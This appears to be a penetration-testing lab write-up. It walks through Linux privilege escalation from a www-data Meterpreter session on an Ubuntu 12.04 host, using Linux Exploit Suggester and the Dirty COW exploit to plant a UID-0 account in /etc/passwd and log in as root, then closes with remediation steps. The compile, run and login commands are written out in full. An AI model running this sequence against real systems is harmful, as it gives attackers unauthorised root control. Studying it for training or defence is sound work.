# Linux Kernel Exploits

**Classification:** Host & Network Penetration Testing / System & Host-Based Attacks<br>
**Target:** 10.10.10.15 — Ubuntu 12.04 (Linux 3.2.0-23-generic, x64)<br>
**Starting access:** Meterpreter session as `www-data`

## 1. Executive Summary

Starting from an unprivileged `www-data` Meterpreter session, we run **Linux Exploit
Suggester** to match the kernel (3.2.0-23) against known exploits. It flags **Dirty COW
(CVE-2016-5195)** as highly probable. We compile the `dirty.c` variant on the target, which
writes a new UID-0 account (`firefart`) into `/etc/passwd`, then log in as root over SSH.

## 2. Initial Foothold

```bash
sysinfo             # Ubuntu 12.04 (Linux 3.2.0-23-generic)
getuid              # www-data
```



Dropping to a shell and confirming the unprivileged context.

```bash
shell
groups www-data     # www-data : www-data
```



Enumerating accounts to pick a target (root).





## 3. Exploit Enumeration

Uploading Linux Exploit Suggester to `/tmp`.

```bash
cd /tmp
upload ~/Desktop/Linux-Enum/les.sh
```



Making it executable and running it.

```bash
shell
chmod +x les.sh
./les.sh
```





The suggester flags **Dirty COW (CVE-2016-5195)** — "highly probable" for this
`ubuntu=12.04` kernel, with an exploit download URL.



## 4. Exploiting Dirty COW

Uploading the `dirty.c` variant and compiling it on the target.

```bash
upload ~/Downloads/dirty.c
shell
gcc -pthread dirty.c -o dirty -lcrypt
```



Running it with a chosen password backs up `/etc/passwd` and injects a new UID-0 user
`firefart`.

```bash
./dirty password123
```

```
/etc/passwd successfully backed up to /tmp/passwd.bak
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash
```





Confirming the new privileged account in `/etc/passwd`.

```bash
cat /etc/passwd     # firefart:...:0:0:pwned:/root:/bin/bash
```



## 5. Root via SSH

```bash
ssh firefart@10.10.10.15     # password: password123
whoami                       # root
```



## 6. Remediation Recommendations

1. **Patch the kernel** — Dirty COW is fixed in updated kernels; upgrade off EOL Ubuntu
   12.04 / kernel 3.2.
2. **Restrict compilers/tooling** on production hosts so exploits can't be built locally.
3. **Harden the web service** so `www-data` can't write to or execute files in `/tmp`
   (`noexec` mounts, AppArmor).
4. **Monitor `/etc/passwd` integrity** and alert on new UID-0 accounts.
